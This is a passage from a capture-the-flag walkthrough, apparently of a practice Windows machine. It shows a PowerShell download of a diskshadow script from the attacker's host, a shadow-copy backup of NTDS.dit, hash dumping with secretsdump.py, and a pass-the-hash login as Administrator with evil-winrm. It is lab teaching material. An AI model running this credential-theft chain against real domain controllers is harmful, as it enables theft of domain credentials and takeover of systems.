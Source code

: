 In order to get the file onto the host, I used the following PowerShell command:

```powershell
Invoke-WebRequest "http://10.10.15.57/shadow.txt" -OutFile "shadow.txt"
```

Now that the file is on the machine, we can use *diskshadow* to read in the file and create a backup in the `Z:` drive.

<details></details>

Success! The file was successfully backed up. In order to dump the contents locally, we need to move the file onto our Kali machine along with a backup of the system file which contains the boot key. The boot key within the SYSTEM hive is required to decrypt the contents of the NTDS file. The commands used are shown below:

<details></details>

With the files on the Kali machine, I used the following command to dump the contents of the NTDS.dit file:

```python
python3 secretsdump.py -ntds ntds.dit -system system.bak LOCAL    
```

This command took quite a lot of time, but we eventually managed to get the Administrator hash -- `184fb5e5178480be64824d4cd53b99ee`, which we used to authenticate to the machine using the following command:

```bat
evil-winrm -u Administrator -H "184fb5e5178480be64824d4cd53b99ee" -i 10.10.10.192
```

If you did end up using a different method to authenticate to the machine which elevates your token to SYSTEM, e.g. using psexec, you would not have been able to read the `root.txt` file because it was encrypted. If you recall, the notes file stated the following: `PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)`, which ensured that only the `Administrator` account would be able to retrieve the contents of the file. 

That's the box! I hope that the walkthrough helped someone. If you found it interesting at all or if you think it was missing some crucial information, please reach out to me so that I can continue improving as I create more posts.